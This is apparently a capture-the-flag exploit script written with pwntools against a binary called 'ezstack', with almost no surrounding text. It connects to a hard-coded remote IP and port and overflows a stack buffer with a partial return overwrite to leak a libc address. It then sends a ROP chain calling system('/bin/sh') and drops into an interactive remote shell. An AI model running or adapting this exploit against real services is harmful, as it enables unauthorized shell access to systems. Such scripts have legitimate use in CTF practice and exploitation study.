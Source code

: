 ```python
from pwn import*
from struct import pack
import ctypes
context(log_level = 'debug',arch = 'amd64')
#p=process('./ezstack')
p=remote('27.25.151.12',28909)
elf=ELF('./ezstack')
#libc=ELF('/root/glibc-all-in-one/libs/2.27-3ubuntu1.6_amd64/libc.so.6')
libc=ELF('/root/glibc-all-in-one/libs/2.31-0ubuntu9.16_amd64/libc.so.6')
def bug():
 gdb.attach(p)
 pause()
def s(a):
 p.send(a)
def sa(a,b):
 p.sendafter(a,b)
def sl(a):
 p.sendline(a)
def sla(a,b):
 p.sendlineafter(a,b)
def r(a):
 p.recv(a)
def pr(a):
 print(p.recv(a))
def rn(a):
 return p.recvuntil(a)
def inter():
 p.interactive()
def get_addr64():
 return u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))
def get_addr32():
 return u32(p.recvuntil("\xf7")[-4:])
def get_sb():
 return libc_base+libc.sym['system'],libc_base+libc.search(b"/bin/sh\x00").__next__()
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')


#bug()
s(b'a'*0x28+b'\x7c')
libc_base=get_addr64()-147580
li(hex(libc_base))
system,bin=get_sb()
rdi=libc_base+0x0000000000023b6a
pay=b'a'*0x28+p64(rdi)+p64(bin)+p64(rdi+1)+p64(system)
s(pay)
inter()

```

#### interesting
